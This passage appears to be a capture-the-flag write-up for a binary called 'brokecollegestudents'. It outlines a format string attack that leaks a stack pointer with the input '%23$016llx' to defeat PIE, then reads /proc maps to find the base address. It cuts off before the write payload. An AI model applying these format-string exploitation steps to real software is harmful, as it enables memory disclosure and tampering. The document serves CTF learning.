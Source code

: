 Since PIE is on, the approach I want to take is:

1. Leak the base address.
2. Calculate where in memory `MONEY` is stored relative to the base address.
3. Format string write a bunch of money there.
4. Buy the flag.

After using a similar technique we used in Tweetybirb, I find a good and stable pointer as the 23rd argument on the stack:

```shell
$ ./brokecollegestudents                                                                                                                                 
Welcome to the College Applications!
What would you like to do?
You have 5000 money.
===========================
1) Scholarship Application Portal
2) Collegeboard Website
3) Quit
===========================
Choice: 1
Welcome to the College Applications!
Would you like to delve into scholarship hunting?
It's only $500 and you have a one in a million chance of winning. What a steal!
===========================
You have 5000 money.
1) Yes ($500)
2) No
===========================
Choose: 1
You encountered some kind of wild application essay reader thing!
What do you want to do?

1) Apply!
2) Run away and follow your dreams of art school!
CHOOSE: 1
YOU GOT IT!
You caught a wild scholarship! These are rare.
What is it's name?
name: %23$016llx
Maybe now you'll be able to afford a single quarter of university! The scholarship you got was: 

0000556adb57992d
```

After I get that address I can find out the base address of the binary and check the offset:

```shell
$ cat /proc/$(pidof brokecollegestudents)/maps
556adb578000-556adb579000 r--p 00000000 08:01 1051727                    brokecollegestudents
...

```
